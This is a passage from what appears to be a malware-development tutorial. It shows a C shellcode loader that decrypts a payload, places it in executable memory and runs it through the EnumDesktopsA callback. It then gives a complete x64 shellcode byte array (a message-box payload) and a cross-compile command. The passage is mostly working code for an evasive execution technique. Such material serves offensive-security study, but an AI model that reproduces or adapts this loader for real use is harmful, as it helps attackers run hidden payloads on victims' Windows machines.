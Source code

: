 ```cpp
    printf("encryption and decryption successful.\n");
  } else {
    printf("encryption and decryption failed.\n");
  }

  LPVOID mem = VirtualAlloc(NULL, data_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decrypted, data_size);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (long long int)NULL);

  return 0;
}
```

As usually, for simplicity, used meow-meow messagebox payload:     

```cpp
unsigned char data[] = {
0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
};
```

As you can see, for checking correctness, also added comparing and printing logic.    

### demo

Let’s go to see everything in action. Compile it (in my `kali` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
